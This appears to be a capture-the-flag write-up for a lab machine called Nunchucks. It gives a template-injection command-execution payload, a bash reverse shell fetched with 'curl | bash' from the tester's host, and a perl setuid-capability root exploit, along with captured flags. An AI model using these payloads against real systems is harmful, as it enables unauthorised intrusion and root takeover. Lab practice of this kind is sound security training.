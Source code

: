![OpenAdmin.PNG](/assets/Machines/Easy/OpenAdmin/OpenAdmin.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.122
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.122
```
**Output**
```bash
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

3. Do virtual hosting with web page and look

![web.PNG](/assets/Machines/Easy/Nunchucks/web.PNG)

* Login and Sig up Modules are disables, in this case use vhost busting.

4. Use **vhost** to discover subdomains
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Nunchucks]
└─| wfuzz -c -t 200 --hc=404 --hh=30587 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.nunchucks.htb" https://nunchucks.htb
```

**Output**
```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                     
=====================================================================

000000081:   200        101 L    259 W      4028 Ch     "store"
```
* Put subdomain discover in `/etc/hosts`

5. Visit new web page

![web2.PNG](/assets/Machines/Easy/Nunchucks/web2.PNG)

* When you look a site like this you think in **SSTI Attack**
  
![informarion.PNG](/assets/Machines/Easy/Nunchucks/informarion.PNG)

* You use `{{range.constructor("return global.process.mainModule.require('child_process').execSync('<command>')")()}}` to execute commands

6. Test any command in Burpsuite

![test.PNG](/assets/Machines/Easy/Nunchucks/test.PNG)

* Command execute: `tail /etc/passwd`

7. Execute a command to get a reverse shell, in this we can obtain this of other way.

First, create a index.html in current folder and put this in the file
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.32/443 0>&1
```

---

Then, create a server with python in current folder
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Nunchucks]
└─| python -m http.server 80
```

---

Finally, execute this command `curl <tun0 IP> | bash`

* We do all previous process for avoid errors
* Remember listen with **nc** 

**Output**
```bash
david@nunchucks:/var/www/store.nunchucks$ whoami
david
```


8. Cat **user flag**
```bash
david@nunchucks:/var/www/store.nunchucks$ cat /home/david/user.txt 
455fe77f0e9cc9286871ae400f7eaf06
```

---
---
---

### Privileges Escalation 💀
1. Search all capabilities
```bash
david@nunchucks:/var/www/store.nunchucks$ getcap -r / 2>/dev/nul
```

**Output**
```bash
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

2. Try to change your UID

![cap.PNG](/assets/Machines/Easy/Nunchucks/cap.PNG)

* In this case the command not function.

3. Search files for SeLinux or AppArmor are security modules.
```bash
david@nunchucks:/var/www/store.nunchucks$ find / -name "apparmor" 2>/dev/null | grep -vE 'proc|var'
/usr/lib/apparmor
/usr/lib/python3/dist-packages/apparmor
/usr/share/apparmor
/usr/share/doc/apparmor
/usr/share/lintian/overrides/apparmor
/usr/src/linux-headers-5.4.0-86/security/apparmor
/usr/src/linux-headers-5.4.0-81-generic/include/config/security/apparmor
/usr/src/linux-headers-5.4.0-86-generic/include/config/security/apparmor
/usr/src/linux-headers-5.4.0-81/security/apparmor
/etc/apparmor
/etc/init.d/apparmor
/sys/kernel/security/apparmor
/sys/module/apparmor
```

* In this case the system have **AppArmor module**

4. Search vulnerabilities with perl AppArmor https://bugs.launchpad.net/apparmor/+bug/1911431

5. Exploit with previous vulnerability
* Bug is in use `#!/usr/bin/perl`
* Create a file with this perl script in `/tmp`
```perl
#!/usr/bin/perl

use POSIX qw(setuid); 
POSIX::setuid(0); 
exec "/bin/sh";
```

* Put execute permission and go!

**Output**
```bash
david@nunchucks:/tmp$ ./exploit.pl 
# whoami
root
```

6. Cat **root flag**
```bash
# cat /root/root.txt
0c0b3b3868bce3dc3c495aebf417c179
```